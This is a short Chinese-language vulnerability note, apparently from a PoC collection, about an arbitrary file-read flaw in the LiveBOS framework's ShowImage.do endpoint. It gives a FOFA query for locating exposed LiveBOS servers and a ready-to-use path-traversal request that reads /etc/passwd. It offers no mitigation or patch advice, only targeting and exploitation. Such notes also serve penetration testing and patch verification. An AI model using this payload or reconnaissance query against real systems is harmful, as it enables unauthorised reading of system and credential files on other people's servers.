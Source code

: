 # LiveBOS ShowImage.do 任意文件读取漏洞

## 网络测绘

fofa: app="LiveBOS-框架"

## POC / EXP

```
/feed/ShowImage.do;.js.jsp?type=&imgName=../../../../../../../../../../../../../../../etc/passwd
```